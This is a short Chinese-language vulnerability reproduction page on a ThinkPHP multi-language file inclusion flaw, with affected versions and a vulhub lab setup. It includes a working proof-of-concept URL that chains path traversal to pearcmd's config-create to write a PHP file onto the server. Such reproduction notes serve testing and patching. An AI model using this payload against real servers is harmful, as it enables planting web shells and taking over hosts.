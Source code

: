 # ThinkPHP LoadLangPack lang 任意文件包含漏洞

## 漏洞描述

当Thinkphp 程序开启了多语言功能时，可以通过 get、header、cookie 等位置传入参数，使用 pearcmd 文件包含达到命令执行，获取服务器权限

## 漏洞影响

<a-checkbox checked>Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x</a-checkbox></br>

## 环境搭建

<a-checkbox checked>docker pull vulhub/thinkphp:6.0.12</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1671154096412-bb0dedfd-eb08-4b0c-af16-60a54db8a17d.png)

验证POC

```php
/public/index.php?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php
```

![img](../../../.vuepress/public/img/1671154607827-3548f528-c745-4ed1-994a-8aee9850ddee.png)![img](../../../.vuepress/public/img/1671154706972-596ab1d0-26ce-428b-a54b-b94ddaf4e8ef.png)